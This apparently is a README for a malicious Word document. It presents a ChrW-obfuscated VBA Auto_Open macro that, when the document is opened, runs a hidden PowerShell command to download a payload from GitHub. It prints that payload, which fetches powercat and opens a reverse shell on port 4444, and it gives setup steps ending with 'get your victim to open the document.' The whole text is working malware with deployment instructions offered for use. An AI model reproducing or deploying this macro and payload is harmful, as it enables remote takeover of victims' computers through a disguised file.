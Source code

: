 # MS Word virus

`document.docm` is a Word document with an obfuscated macro that will activate when the document is opened.

## The Macro

The macro:
```vba
Sub Auto_Open()
Dim first As String
Dim second As String
Dim third As String
Dim fourth As String
Dim fifth As String
Dim sixth As String
Dim seventh As String
Dim eighth As String
Dim ninth As String
Dim tenth As String
Dim eleventh As String
Dim twelfth As String
Dim thirteenth As String
Dim fourteenth As String
Dim fifteenth As String
Dim sixteenth As String
Dim seventeenth As String
Dim cmd As String
' This part might vary depending on your GitHub username, the repo name and the branch.
first = ChrW(112) & ChrW(111) & ChrW(119) & ChrW(101) & ChrW(114) & ChrW(115) & ChrW(104) & ChrW(101) & ChrW(108) & ChrW(108)
second = ChrW(46) & ChrW(101) & ChrW(120) & ChrW(101) & ChrW(32) & ChrW(45) & ChrW(119) & ChrW(32) & ChrW(104) & ChrW(105)
third = ChrW(100) & ChrW(100) & ChrW(101) & ChrW(110) & ChrW(32) & ChrW(45) & ChrW(99) & ChrW(32) & ChrW(34) & ChrW(73)
fourth = ChrW(69) & ChrW(88) & ChrW(32) & ChrW(40) & ChrW(78) & ChrW(101) & ChrW(119) & ChrW(45) & ChrW(79) & ChrW(98)
fifth = ChrW(106) & ChrW(101) & ChrW(99) & ChrW(116) & ChrW(32) & ChrW(83) & ChrW(121) & ChrW(115) & ChrW(116) & ChrW(101)
sixth = ChrW(109) & ChrW(46) & ChrW(78) & ChrW(101) & ChrW(116) & ChrW(46) & ChrW(87) & ChrW(101) & ChrW(98) & ChrW(67)
seventh = ChrW(108) & ChrW(105) & ChrW(101) & ChrW(110) & ChrW(116) & ChrW(41) & ChrW(46) & ChrW(68) & ChrW(111) & ChrW(119)
eighth = ChrW(110) & ChrW(108) & ChrW(111) & ChrW(97) & ChrW(100) & ChrW(83) & ChrW(116) & ChrW(114) & ChrW(105) & ChrW(110)
ninth = ChrW(103) & ChrW(40) & ChrW(39) & ChrW(104) & ChrW(116) & ChrW(116) & ChrW(112) & ChrW(115) & ChrW(58) & ChrW(47)
tenth = ChrW(47) & ChrW(114) & ChrW(97) & ChrW(119) & ChrW(46) & ChrW(103) & ChrW(105) & ChrW(116) & ChrW(104) & ChrW(117)
eleventh = ChrW(98) & ChrW(117) & ChrW(115) & ChrW(101) & ChrW(114) & ChrW(99) & ChrW(111) & ChrW(110) & ChrW(116) & ChrW(101)
twelfth = ChrW(110) & ChrW(116) & ChrW(46) & ChrW(99) & ChrW(111) & ChrW(109) & ChrW(47) & ChrW(87) & ChrW(105) & ChrW(110)
thirteenth = ChrW(112) & ChrW(97) & ChrW(114) & ChrW(87) & ChrW(105) & ChrW(110) & ChrW(112) & ChrW(97) & ChrW(114) & ChrW(47)
fourteenth = ChrW(109) & ChrW(115) & ChrW(45) & ChrW(119) & ChrW(111) & ChrW(114) & ChrW(100) & ChrW(45) & ChrW(118) & ChrW(105)
fifteenth = ChrW(114) & ChrW(117) & ChrW(115) & ChrW(47) & ChrW(109) & ChrW(97) & ChrW(105) & ChrW(110) & ChrW(47) & ChrW(112)
sixteenth = ChrW(97) & ChrW(121) & ChrW(108) & ChrW(111) & ChrW(97) & ChrW(100) & ChrW(46) & ChrW(116) & ChrW(120) & ChrW(116)
seventeenth = ChrW(39) & ChrW(41) & ChrW(34)
cmd = first + second + third + fourth + fifth + sixth + seventh + eighth + ninth + tenth + eleventh + twelfth + thirteenth + fourteenth + fifteenth + sixteenth + seventeenth
Shell (cmd)
End Sub
Sub AutoOpen()
Auto_Open
End Sub
Sub Workbook_Open()
Auto_Open
End Sub
```

When the macro runs, it gets the contents of `payload.txt` and runs it as a powershell script.

`payload.txt`:
```powershell
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
powercat -c ###.###.###.### -p 4444 -e powershell.exe
```

`payload.txt` downloads `powecat`, than connects to a `NetCat` server on port 4444, using `powershell` as the shell.

## Setting it up

To set it up:
1. Create a ***private*** repo.
2. Create a file called `payload.txt` and paste the contents of the `payload.txt` from this repo, replacing `###.###.###.###` with your current IP address.

To get your IP address on Mac, run the following command:
```shell
echo $(ifconfig | grep broadcast | awk '{ print $2 }')
```
For Windows do the following command:
```batch
ipconfig
```
Then, look for [thing]. That will be your IP address.

3. Using the [command obfuscator for VBA](https://www.dropbox.com/s/38g95s4g2v7eclj/Obfuscate.jar?dl=1), obfuscate `powershell.exe -w hidden -c "IEX ((new-object net.webclient).downloadstring('https://raw.githubusercontent.com/[your username]/[repo name]/[branch name]/payload.txt'))"`. Replace [your username] with your GitHub username, [repo name] with the name of the repo created in step 1 and [branch name] with the name of the branch that has `payload.txt` in it.
4. Open `document.docm` in MS Word.
5. Edit the `Auto_Open` macro (View > Macros > View Macros > Auto_Open).
6. Select everthing, including the other `Subs` (macros).
7. Paste the code from step 3 (already copied to clipboard).
8. Click the purple floppy disk icon in the top left to save the macro, than X out of that window.
9. Then you can do whatever with the document (making sure not to delete the `Auto_Open`, `AutoOpen` and `Workbook_Open` macros).
10. Then, just get your victim to open the document. Make sure to add them to the repo.
